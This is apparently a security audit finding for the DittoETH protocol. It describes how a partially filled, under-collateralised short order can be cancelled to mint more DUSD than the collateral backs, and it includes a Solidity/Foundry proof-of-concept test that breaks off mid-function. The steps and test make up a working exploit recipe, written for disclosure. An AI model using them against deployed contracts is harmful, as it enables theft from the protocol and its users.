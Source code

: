 A malicious user can exploit this by following these steps:

1. Create a short order on an asset that lets the user provide less than 100% capital.
2. Ensure that the order only gets partially filled before it is added to the market.
3. Cancel the order to mint DUSD for only a part of the collateral and get the minted DUSD.

This will allow him to mint more DUSD than the value of the collateral he provided. The Short Record he leaves is also immediately liquidatable.

### Impact

The issues above has the following impacts:

- Users can mint more DUSD than the collateral they provide.
- Users can mint DUSD at a lesser price than the current ETH price.
- A user can open a position that is immediately liquidatable if he does any of the two actions above.
- Users can also mint DUSD at a higher price than the current ETH price letting them experience a loss.

### Proof of Concept

The POC below can be run in the [shorts.t.sol](https://github.com/code-423n4/2024-03-dittoeth/blob/main/test/Shorts.t.sol) file. It consists of 2 tests:

- `test_MintFreeDUSD` shows how a user can mint DUSD for less collateral than required and open a liquidatable position.
- `test_MintBelowPrice` shows how a user can mint DUSD at a lesser price and open a liquidatable position.

```solidity
// Make sure to import the types below into the Shorts.t.sol file
    // import {STypes, MTypes, O, SR} from "contracts/libraries/DataTypes.sol";
    function test_MintFreeDUSD() public {
        // set the initial, penalty and liquidation CRs
        vm.startPrank(owner);
        // set below 200 to allow shorter provide less than 100% of debt
        diamond.setInitialCR(asset, 170); 
        diamond.setPenaltyCR(asset, 120);
        diamond.setLiquidationCR(asset, 150);
        vm.stopPrank();

        // create a bid to match the short and change its state to SR.PartialFill
        fundLimitBidOpt(1 ether, 0.01 ether, receiver);

        // create the short providing only 70% of the dusd to be minted
        uint88 price = 1 ether;
        depositEth(sender, price.mulU88(5000 ether).mulU88(0.7 ether));
        uint16[] memory shortHintArray = setShortHintArray();
        MTypes.OrderHint[] memory orderHintArray = diamond.getHintArray(asset, price, O.LimitShort, 1);
        vm.prank(sender);
        diamond.createLimitShort(asset, uint80(price), 5000 ether, orderHintArray, shortHintArray, 70);

        STypes.ShortRecord memory short = getShortRecord(sender, C.SHORT_STARTING_ID);
        // successfully matches the bid
        assertTrue(short.status == SR.PartialFill);
        
        // cancel the short to use up collateral provided and mint dusd
        vm.prank(sender);
        cancelShort(101);

        short = getShortRecord(sender, C.SHORT_STARTING_ID);
        assertEq(short.ercDebt, 2000 ether); // 2000 dusd minted
```